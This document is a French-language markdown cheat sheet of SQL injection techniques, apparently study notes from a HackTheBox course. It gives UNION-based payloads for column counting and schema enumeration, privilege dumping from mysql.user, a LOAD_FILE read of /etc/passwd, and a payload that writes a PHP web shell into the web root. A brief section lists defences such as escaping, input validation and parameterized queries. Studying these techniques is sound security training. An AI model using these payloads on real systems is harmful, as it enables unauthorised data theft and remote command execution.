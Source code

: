 # SQL INJECTION

----
![Types d'injection sql](../Ressources/IMG/types_of_sqli.jpg)
* L'injection sql commence toujours avec : **'**
dans le but d'escape 
* **Le select dépend toujours du nombre de colonne**

|Payload | URL Encoded | commentaire|
|--|--|-- |
|'|%27| 
|"|%22|
|#|%23|
|;|%3B|
|)|%29|
|-- |--+| commentaire ("--" + espace )|
|#|%23| commentaire |

|Operations | Response |
|--|--|
|OR 1=1| true|
|@@version|Version utilisé ( pas une injection mais une var qui donne un string ) |
|database()| database name|


###### information à propos des utilisateurs et des privilèges
```sql
# username 
select user() |  current_user
       user from mysql.user
# privilege 
SELECT super_priv FROM mysql.user
# si on a plusieurs utilisateurs , on ajoute le where
cn' UNION SELECT super_priv FROM mysql.user WHERE user="<UserName>"-- -

# dump other privileges 
# ajouter where quand il y'a plusieurs users
cn' UNION SELECT grantee, privilege_type FROM information_schema.user_privileges-- -

```
---

###  UNION INJECTIONS :

> en fonction du nombre de colonne manquant, on rajoute de faux inputs

```sql
# employee à 6 colonnes et departments 2
# selectionner toutes les colonnes dans employee avec *

# selectionner les deux colonnes de departments 
# avec leur nom puis rajouter des trus random comme colonnes suivante 

SELECT * FROM employees UNION SELECT dept_no,dept_name,3,5,4,6 FROM departments AS result;

```
#### Trouver le nombre de colonne d'une table

##### Utilisation de UNION ou ORDER BY 
```sql

# ajouter l'extra - après les 2 précédants pour montrer qu'il y'a un espace après --

#ORDER BY
# s'arreter quand il y'a une erreur , pour un nombre n => le nombre de colonne = n-1
' order by <nombre>-- -

# UNION
# s'arrete quand il n'y a pas d'erreur => pour un nombre n => le nombre de colonne = n
cn' UNION select <fakeName1>,<Fakename2>,..,<FakeNameN>-- -

```

----
### Collecte d'information :  Énumération de base de données

* List des bases de données
* List des tables dans la base de données
* List des colonnes dans chaque table
> Pour avoir ces informations , on doit afficher INFORMATION_SCHEMA

#### List des bases de données
###### **SCHEMA_NAME** column contains all the database names currently present

```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```
#### List des tables dans la base de données
* utilisation de **TABLE_NAME** et **TABLE_SCHEMA** dans **INFORMATION_SCHEMA.TABLES**
```sql
cn' UNION select TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='<dbName>'-- -
```

#### List des colonne d'une table dans la base de données
* utilisation de **COLUMN_NAME** **TABLE_NAME** **TABLE_SCHEMA** dans **INFORMATION_SCHEMA.COLUMNS**
```sql
cn' UNION select COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='<NameOfTable>'-- -
```

----
### Lecture de fichiers
* L'utilisateur de la base de données doit avoir le privilège FILE

```sql
# load_file accpeté par mysql and mariadb
SELECT LOAD_FILE('</etc/passwd | Path>');
```

----
### Écriture de fichiers

###### requirements : 
* FILE privilege
* secure_file_priv disabled
    ```bash
    SHOW VARIABLES LIKE 'secure_file_priv';

    SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

    cn' UNION SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
    ```

* Write access to the location we want to write to on the back-end server
* write file 
```sql
# mettre le select dans un fichier 
SELECT <Element> from <tableName> INTO OUTFILE '<OutPutPath>'; # ex: SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

```

> Note: To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use load_file 

```sql
# exemple
cn' union select '<?php system($_REQUEST[0]); ?>' into outfile '/var/www/html/shell.php'-- -
```

pour avoir accès au shell, on utilise
```bash
<URLFilePath>?0=<cmd>
```

----
### Protection
##### Anti escape de :  ' "

##### utiliser en php : 
* Pour Postgre : **pg_escape_string()**
* Pour Mysql : **mysqli_real_escape_string()**

##### Validation des input
* utiliser : !preg_match()

##### limit privileges to select

##### install web firewall

##### using parameterized queries
----

## Ressources

###### [_SQL Basics_](../HackTheBox/Academy/SQL%20basics.md)
###### [_Payload all the things_](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)